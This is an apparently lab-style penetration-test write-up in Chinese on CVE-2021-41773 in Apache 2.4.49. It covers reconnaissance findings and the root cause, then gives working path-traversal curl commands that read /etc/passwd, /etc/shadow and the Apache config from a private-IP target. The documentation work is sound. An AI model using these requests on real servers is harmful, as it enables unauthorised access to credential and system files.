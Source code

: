 **目录发现分析**：

- **`/cgi-bin/` (403 Forbidden)**: **关键发现** - 这是CVE-2021-41773漏洞利用的核心路径
  - 403状态表明目录存在但访问被限制
  - CGI目录的存在为路径遍历攻击提供了入口点
- **`/index.html` (200 OK)**: 标准首页文件，大小10701字节
- **`/server-status` (403 Forbidden)**: Apache状态页面，被保护但存在

##### 2.6 信息收集总结

1. **漏洞确认**:

   - Apache版本2.4.49**完全匹配CVE-2021-41773的受影响版本**
   - 服务器配置标准，未发现特殊的安全加固
2. **攻击条件满足**:

   - **版本匹配**: 确认为易受攻击的Apache版本
   - **服务配置**: 标准Apache配置，为路径遍历攻击提供了条件
3. **安全态势评估**:

   - **高风险**: 版本完全匹配已知高危漏洞
   - **配置薄弱**: 缺少多个安全头，信息泄露风险
   - **攻击面**: CGI功能启用，为代码执行提供了可能

#### 3. 漏洞分析与利用

##### 3.1 CVE-2021-41773 漏洞原理

**漏洞基本信息**:

- **CVE编号**: CVE-2021-41773
- **CVSS评分**: 7.5 (高危)
- **漏洞类型**: 路径遍历 (Path Traversal)
- **影响版本**: Apache HTTP Server 2.4.49
- **漏洞原理**: Apache 2.4.49版本在处理URL路径规范化时存在缺陷，攻击者可以通过构造特殊的URL编码绕过路径限制，访问Web根目录之外的文件

**技术细节**:

- **根本原因**: Apache对URL中的路径分隔符和点号序列的处理不当
- **绕过机制**: 使用URL编码的点号(`%2e`)可以绕过路径规范化检查
- **攻击路径**: 通过Alias映射的目录(如 `/cgi-bin/`, `/icons/`)进行路径遍历

##### 3.2 路径遍历攻击实践

###### 3.2.1 基础路径遍历测试

```bash
# 尝试通过CGI路径读取 /etc/passwd 文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试读取 Apache 配置文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/apache2/apache2.conf"

# 尝试读取其他敏感文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow"
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/proc/version"
```
